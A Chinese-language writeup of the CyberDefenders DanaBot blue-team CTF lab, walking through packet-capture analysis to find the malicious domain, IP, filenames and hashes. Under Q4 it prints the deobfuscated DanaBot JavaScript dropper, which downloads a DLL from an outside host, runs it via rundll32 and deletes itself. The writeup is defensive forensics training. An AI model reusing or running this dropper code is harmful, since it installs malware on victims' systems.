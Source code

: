 ```yaml
---
title: DanaBot Lab
published: 2025-08-02
updated: 2025-08-03
description: "CyberDefenders DanaBot Lab writeup"
image: "/assets/cyberdefenders/DanaBot_Lab/cover.png"
tags: ["CyberDefenders", "Blue Team CTF"]
category: "CyberDefenders"
draft: false
---
```


跟鯨魚諮詢完之後知道有 blue team ctf (再次謝謝鯨魚)  
不能白問，挑我最喜歡的看封包 lab 練一下  
甚麼時候換題目類型...看心情 xd

# DanaBot Lab

[Lab 連結](https://cyberdefenders.org/blueteam-ctf-challenges/danabot/)

## Q1

在封包中看到 `portfolio.serveirc.com` ，用 [VirusTotal](https://www.virustotal.com/gui/home/upload) 查詢這個 domain

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058814.png)

在 wireshark 裡面看到關於 `portfolio.serveirc.com` 的其中一條出現 ip

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058888.png)
所以初始存取的 ip 是 `62.173.142.148`

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058943.png)

> Note: 可以用 VirusTotal 去確認一個網站的信譽

## Q2

在第一次登入看到混淆過的 JavaScript 程式碼，先用線上工具看看能不能解混淆

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058991.png)

根據解混淆後的程式碼，可以知道應該是使用了`.dll` 並 random 了 10 個字母作為檔案名稱  
(看起來像是下一題的部分)

然後再仔細看一眼封包，就發現檔案名稱是`allegato_708.js`

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059042.png)

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059081.png)

## Q3

在 `File > Export Objects > HTTP` 找到第一個惡意程式，用 `sha256sum` 可以找到 SHA-256 hash

```bash
sha256sum login.php
```

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059122.png)

## Q4

Windows 系統執行 `.js` 檔案是由內建的 `wscript.exe` 或是 `cscript.exe` 負責執行的

```javascript
function _0x414360(_0x5c5160) {
  var _0x119065 = "";
  var _0x5a393f = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length;
  for (var _0x3d45b7 = 0x0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(
      Math.floor(Math.random() * _0x5a393f)
    );
  }
  return _0x119065 + ".dll";
}
var _0x48a85a = _0x414360(0xa);
var _0x44bdd9 =
  new ActiveXObject("Scripting.FileSystemObject").GetSpecialFolder(0x2) +
  "\\" +
  _0x48a85a;
var _0x5da57f = WScript.CreateObject("MSXML2.XMLHTTP");
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
_0x5da57f.Send();
if (_0x5da57f.Status == 0xc8) {
  var _0x3c8952 = WScript.CreateObject("ADODB.Stream");
  _0x3c8952.Open();
  _0x3c8952.Type = 0x1;
  _0x3c8952.Write(_0x5da57f.ResponseBody);
  _0x3c8952.Position = 0x0;
  _0x3c8952.SaveToFile(_0x44bdd9, 0x2);
  _0x3c8952.Close();
  var _0x1e16b0 = WScript.CreateObject("Wscript.Shell");
  _0x1e16b0.Run("rundll32.exe /B " + _0x44bdd9 + ",start", 0x0, true);
}
new ActiveXObject("Scripting.FileSystemObject").DeleteFile(
  WScript.ScriptFullName
);
```

從 `Wscript.Shell` 可以看出是用 `wscript.exe` 來執行的

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059159.png)

## Q5

在 `GET /resources.dll` 裡有一行 `This program cannot be run in DOS mode.` ，然後接下來就是很多的 DoS 紀錄

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059213.png)

所以第二個惡意程式的檔案副檔名就是 `.dll`

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059257.png)

## Q6

最後用 `md5sum` 可以找到 MD5 hash

```bash
md5sum resources.dll
```

---

```txt
I successfully completed DanaBot Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/n1ght0w1/danabot/

#CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender
```

---

## 工具

[VirusTotal](https://www.virustotal.com/gui/home/upload)
可以確認 IP 的信譽

[Obfuscator.io Deobfuscator](https://obf-io.deobfuscate.io/)
解 JavaScript 混淆

[# synchrony](https://deobfuscate.relative.im/)
解 JavaScript 混淆
